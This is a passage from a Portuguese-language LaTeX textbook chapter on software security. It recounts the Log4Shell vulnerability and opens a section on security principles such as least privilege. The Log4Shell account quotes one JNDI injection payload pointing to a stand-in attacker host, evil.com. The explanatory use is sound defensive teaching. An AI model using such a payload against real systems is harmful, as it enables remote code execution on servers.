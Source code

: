 Em dezembro de 2021, a comunidade de engenharia de software foi sacudida pela
descoberta do Log4Shell, uma vulnerabilidade crítica na biblioteca Log4j, usada
por virtualmente todas as aplicações Java do planeta. A falha permitia execução
remota de código (RCE) simplesmente enviando uma string especialmente formatada
que fosse logada pela aplicação. Um atacante poderia, por exemplo, definir o
User-Agent do navegador como \texttt{\$\{jndi:ldap://evil.com/exploit\}} e, se
qualquer componente do pipeline logasse essa string usando Log4j, o servidor
se conectaria ao servidor do atacante e executaria código arbitrário. A
vulnerabilidade foi explorada em horas após a divulgação, antes que a maioria
das organizações sequer soubesse que era afetada. O incidente demonstrou de forma
visceral o risco de dependências transitivas: muitas equipes nem sabiam que
usavam Log4j, porque ela era uma dependência de uma dependência de uma
dependência.

Todos esses incidentes tinham algo em comum, algo que deveria tirar o sono de
todo engenheiro de software: a vulnerabilidade poderia ter sido evitada ou
significativamente mitigada com práticas básicas de engenharia de segurança. Não
estamos falando de criptografia quântica ou inteligência artificial sofisticada.
Estamos falando de aplicar patches conhecidos, de validar inputs, de monitorar
dependências, de implementar o princípio do menor privilégio. Práticas que
conhecemos há décadas, mas que continuamos ignorando com uma frequência
alarmante.

\section{Princípios de Segurança de Software}

Antes de falar de ferramentas, precisamos falar de princípios. Ferramentas mudam
a cada ano; o framework da moda é substituído, o scanner de vulnerabilidades ganha
um concorrente melhor, a plataforma de cloud lança um novo serviço. Mas os
princípios permanecem. Eles foram formulados nas décadas de 1970 e 1980 por
pesquisadores como Saltzer e Schroeder, e continuam tão relevantes hoje quanto
eram há meio século. Entender esses princípios a fundo é o que separa o
engenheiro que sabe configurar uma ferramenta do engenheiro que sabe \emph{por que}
aquela configuração é necessária.

\subsection{Princípio do Menor Privilégio}

